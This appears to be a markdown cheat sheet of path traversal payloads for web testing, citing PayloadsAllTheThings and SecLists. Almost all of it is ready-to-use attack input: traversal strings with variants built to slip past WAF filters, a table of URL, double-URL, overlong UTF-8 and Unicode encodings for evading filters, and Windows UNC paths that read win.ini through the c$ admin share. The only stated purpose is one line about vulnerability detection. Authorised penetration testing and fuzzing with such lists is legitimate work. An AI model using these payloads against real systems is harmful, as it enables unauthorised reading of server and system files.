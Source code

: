 # Path Traversal Payloads

## Directory Traversal Payloads

These payloads are used for vulnerability detection.

```
../../../../../../
..//..//..//..//..//
..../..../..../..../..../..../
....//....//....//....//....//
..;/..;/..;/..;/..;/..;/             <- Include semicolon (;)
..././..././..././..././..././..././ <- WAF removes "../"

..\..\..\..\..\..\
..\/..\/..\/..\/..\/..\/
....\....\....\....\....\....\
....\/....\/....\/....\/....\/....\/
..;\..;\..;\..;\..;\..;\             <- Include semicolon (;)
...\.\...\.\...\.\...\.\...\.\...\.\ <- WAF removes "..\"
```

## Evasion

| ASCII Character | URL Encoding | Double URL Encoding | UTF-8 Encoding                  | 16 bits Unicode Encoding |
| --------------- | ------------ | ------------------- | ------------------------------- | ------------------------ |
| `.`             | `%2e`        | `%252e`             | `%c0%2e`, `%e0%40%ae`, `%c0ae`  | `%u002e`                 |
| `/`             | `%2f`        | `%252f`             | `%c0%af`, `%e0%80%af`, `%c0%2f` | `%u2215`                 |
| `\`             | `%5c`        | `%255c`             | `%c0%5c`, `%c0%80%5c`           | `%u2216`                 |

### Windows

UNC Bypass

```
\\localhost\c$\windows\win.ini
\\127.0.0.1\c$\windows\win.ini
\\<IP>\c$\windows\win.ini
```

---
## References

### PayloadsAllTheThings

- [PayloadsAllTheThings: Directory Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)

### SecLists

- [SecLists: Directory Traversal Payloads](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)